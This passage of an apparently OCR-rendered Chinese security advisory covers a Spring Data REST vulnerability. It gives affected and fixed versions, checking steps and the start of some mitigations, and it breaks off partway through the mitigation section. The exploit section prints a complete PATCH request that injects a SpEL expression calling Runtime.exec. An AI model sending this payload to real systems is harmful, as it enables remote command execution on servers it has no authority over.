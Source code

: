   ###### 2.6.9 (Ingalls SR9)、3.0.1 (Kay SR1) 之前的 Spring Data REST 版本

  ###### Spring Boot（如果使用 Spring Data REST 模块）1.5.9、2.0 M6 之前的版本

- #### 安全版本

  ###### Spring Data REST 2.6.9（Ingalls SR9）

  ###### Spring Data REST 3.0.1（Kay SR1）

  ###### Spring Boot 1.5.9

  ###### Spring Boot 2.0 M6

- #### 排查方法

  ###### 1、检查lib目录或pom中的Spingboot和Spring Data REST版本是否在漏洞版本中

  ###### 2、检查应用程序是否使用Spring Data REST组件

- #### 漏洞利用

  ###### 命令执行：

  ```
  PATCH /people/1 HTTP/1.1
  Host: localhost:8080
  User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Content-Type:application/json-patch+json
  Upgrade-Insecure-Requests: 1
  Content-Length: 147
  
  [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))/lastName", "value": "vulhub" }]
  ```

- #### 缓解措施

  ###### 不使用Spring Data Rest可构建Rest Web则不影响；

  ###### 官方未给出缓解措施，自己写了如下缓解demo，经测试可用

  一、

  ###### 通过实现RepositoryRestConfigurer接口，ExposureConfiguration对象也可以自定义不使用某种请求方式，但ExposureConfiguration在3.1版本才有。

  

  ###### 二、这个方法要在系统中引入spring security，限制使用PATCH请求头：
